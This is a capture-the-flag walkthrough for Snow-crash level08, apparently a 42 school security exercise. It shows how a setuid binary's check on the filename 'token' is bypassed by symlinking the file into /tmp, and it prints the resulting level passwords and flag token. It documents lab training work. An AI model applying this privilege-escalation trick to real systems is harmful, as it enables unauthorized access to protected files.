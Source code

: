 ```yaml
---
title:  "Snow-crash Level08"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

ttags:
  - CyberSecurity
  - Github
  - Git
toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
categories: 
  - ecole42

---
```


#### 1. The password of `Level08` is the token that got from `Level07`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level08 with the password we got from Level07 and try to put the command `ls`. We can see the files `Level08` and `token`. and try to `cat` and `execute`.

```bash
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ cat token
cat: token: Permission denied
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

We can see `cat: token: Permission denied` and `execute: ./level08 [file to read]`.

#### 3 . then, try to ltrace

```bash
level08@SnowCrash:~$ ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)        = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Same for the ltrace command, we need a another file to be read.

```bash
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ chmod +x token
chmod: changing permissions of `token': Operation not permitted
```

#### 4. So, since we don't have any access, let's create the `symbolic link` as we did in previous exercises.

```bash
level08@SnowCrash:~$ pwd
/home/user/level08
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/level08flag
level08@SnowCrash:~$ ./level08 /tmp/level08flag
quif5eloekouj29ke0vouxean
```

#### 5. So, we found our password! Let's put our password into flag08 for level09.

```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

#### 6. We got a toekn for level 09. 
```
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```